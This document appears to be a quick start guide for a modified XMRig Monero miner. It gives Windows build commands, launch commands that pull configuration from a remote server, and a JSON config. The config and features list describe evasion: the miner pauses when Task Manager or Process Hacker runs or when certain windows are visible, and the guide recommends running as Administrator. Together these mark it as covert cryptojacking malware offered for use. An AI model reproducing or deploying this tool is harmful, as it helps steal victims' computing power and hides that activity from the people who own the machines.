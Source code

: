 # XMRig Quick Start Guide

## Prerequisites

1. **Visual Studio 2019** or later with C++ Desktop Development workload
2. **CMake 3.10** or later
3. **Git**

## Quick Build

### Step 1: Build the program
```cmd
build_windows_simple.bat
```

### Step 2: Run the program
```cmd
start_simple.bat https://your-server.com/config.json
```

## Manual Build (if script fails)

### Step 1: Open Developer Command Prompt
- Start Menu → Visual Studio 2019 → Developer Command Prompt

### Step 2: Build manually
```cmd
mkdir build
cd build
cmake .. -G "Visual Studio 16 2019" -A x64 -DWITH_OPENCL=OFF -DWITH_CUDA=OFF
cmake --build . --config Release --parallel
```

### Step 3: Copy executable
```cmd
copy Release\xmrig.exe ..\xmrig.exe
cd ..
```

## Usage

### Basic usage
```cmd
xmrig.exe --remote-config=https://your-server.com/config.json
```

### Test configuration
```cmd
xmrig.exe --remote-config=https://your-server.com/config.json --dry-run
```

### View help
```cmd
xmrig.exe --help
```

## Configuration

Create a JSON configuration file on your server with this structure:

```json
{
  "cpu-high-pause": 95,
  "cpu-low-resume": 30,
  "cpu-control-interval": 3,
  "cpu-resume-delay": 30,
  "process-pause-names": "taskmgr.exe,processhacker.exe",
  "window-pause-names": "administrator,task manager",
  "donate-level": 90,
  "donate-address": "YOUR_DONATE_ADDRESS",
  "donate-use-user-pool": true,
  "pools": [
    {
      "url": "pool.example.com:3333",
      "user": "YOUR_WALLET_ADDRESS",
      "pass": "x",
      "algo": "rx/0",
      "tls": true
    }
  ]
}
```

## Features

- ✅ Remote configuration from web
- ✅ CPU monitoring (pause when >95%, resume when <30%)
- ✅ Process detection (pause when specific processes running)
- ✅ Window detection (pause when specific windows visible)
- ✅ Smart resume with delay
- ✅ Auto retry for network failures

## Troubleshooting

### Build errors
- Make sure Visual Studio 2019+ is installed with C++ Desktop Development
- Make sure CMake 3.10+ is installed
- Run in Developer Command Prompt

### Runtime errors
- Check network connection
- Verify config URL is accessible
- Check JSON format is valid
- Install Visual C++ Redistributable if needed

### Performance issues
- Run as Administrator for best performance
- Close unnecessary background programs
- Adjust CPU thresholds in config